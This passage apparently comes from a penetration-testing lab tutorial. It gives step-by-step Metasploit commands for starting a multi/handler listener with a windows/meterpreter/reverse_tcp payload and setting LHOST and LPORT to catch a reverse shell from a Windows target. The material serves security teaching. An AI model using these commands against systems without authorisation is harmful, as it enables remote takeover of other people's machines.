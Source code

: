       - Run `use exploit/multi/handler` 

         - This module is a TCP handler popular among security practitioners.

       - The exploit module executes a sequence of commands to target a specific vulnerability.

   - Next, indicate that we'll be using the following Windows Meterpreter payload: 
  
     - Run `set payload windows/meterpreter/reverse_tcp` 

     - This payload will open the Meterpreter console (`/meterpreter`) and communicate with the remote machine (`/reverse_tcp`).
    
     ![MSF 2](Images/MSF_2.png)

  - Display the payload's options settings: 

      - Run `show options`

  - We need to adjust the following two options: 

     - `set LHOST 192.168.0.8` (insert our local host IP address) 

     - `set LPORT 4444`

       - We can technically use any open port, but for this example we will be using port `4444` since it was established in the payload in Step 1. 
